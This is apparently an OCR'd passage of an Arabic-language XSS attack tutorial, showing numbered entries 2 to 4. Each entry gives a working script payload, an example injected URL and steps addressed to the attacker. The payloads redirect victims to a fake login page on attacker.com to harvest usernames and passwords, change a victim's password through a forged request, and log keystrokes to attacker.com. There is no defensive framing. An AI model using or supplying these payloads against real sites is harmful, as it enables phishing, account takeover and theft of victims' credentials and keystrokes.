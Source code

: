 2. **Phishing (تزييف صفحات تسجيل الدخول):**
   - **الوصف**: تستخدم رسالة خطأ أو حقل لوجن عشان تعمل Redirect لصفحة مزيفة.
   - **Payload**:
     ```html
     <script>window.location='attacker.com/fake-login';</script>
     ```
   - **مثال**:
     ```
     example.com/login?username=<script>window.location='attacker.com/fake-login';</script>
     ```
   - **الخطوات**:
     1. صمم صفحة تسجيل دخول مزيفة.
     2. لما الضحية تدخل بيانات غلط، الرابط هيرميها على الصفحة المزيفة.
     3. سجّل اليوزر والباسورد.

3. **تنفيذ أوامر في سياق المستخدم:**
   - **الوصف**: تستغل حقل البحث أو رسالة خطأ عشان تنفذ أوامر زي تغيير كلمة السر.
   - **Payload**:
     ```html
     <script>
       var xhr = new XMLHttpRequest();
       xhr.open('POST', 'example.com/change-password', true);
       xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
       xhr.send('new_password=attacker123');
     </script>
     ```
   - **مثال**:
     ```
     example.com/search?query=<script>var xhr=new XMLHttpRequest();xhr.open('POST','example.com/change-password',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('new_password=attacker123');</script>
     ```
   - **الخطوات**:
     1. ادرس API الموقع.
     2. استخدم الـ Payload عشان تنفذ الأمر.

4. **تسجيل ضربات المفاتيح (Keylogging):**
   - **الوصف**: تسجل كل اللي الضحية بتكتبه في حقل البحث أو اللوجن.
   - **Payload**:
     ```html
     <script>
       document.onkeypress = function(e) {
         new Image().src='attacker.com/log?key=' + e.key;
       };
     </script>
     ```
   - **مثال**:
     ```
     example.com/login?username=<script>document.onkeypress=function(e){new Image().src='attacker.com/log?key='+e.key;}</script>
     ```
   - **الخطوات**:
     1. حط الـ Payload في حقل أو رابط.
     2. المفاتيح هتبعت لسيرفرك.
